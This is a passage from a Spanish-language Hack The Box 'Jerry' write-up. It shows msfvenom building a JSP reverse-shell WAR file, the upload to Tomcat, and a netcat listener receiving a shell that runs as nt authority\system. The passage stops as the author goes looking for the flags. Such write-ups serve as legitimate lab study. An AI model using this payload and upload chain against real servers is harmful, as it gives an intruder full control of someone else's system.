 ```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f war -o shell.war
Payload size: 1096 bytes
Final size of war file: 1096 bytes
Saved as: shell.war
```
Con esto ya nos creo un archivo .war que es lo que admite la aplicacion web, ahora debemos subirlo con la opción browser:

![](/assets/images/htb-writeup-jerry/Captura4.png)

Lo seleccionamos y ya lo subimos, ahi mismo observamos que el archivo es tipo **.war**.

![](/assets/images/htb-writeup-jerry/Captura5.png)

## Accediendo a la Maquina
Una vez subido el archivo que creamos con el payload, que es una **Reverse Shell**, ya solamente debemos alzar una netcat y activar el payload:
```
rlwrap nc -nlvp 443
listening on [any] 443 ...
```
Le damos click al archivo **.war**:

![](/assets/images/htb-writeup-jerry/Captura6.png)

Y listo! Ya estamos dentro:
```
rlwrap nc -nlvp 443
listening on [any] 443 ...

connect to [10.10.14.10] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
C:\apache-tomcat-7.0.88>whoami
nt authority\system
```
Y ya solamente es buscar las flags, que normalmente siempre estan alojadas en la carpte usuarios, dentro del escritorio del usuario y del administrados:
```
:\apache-tomcat-7.0.88>cd C:\
```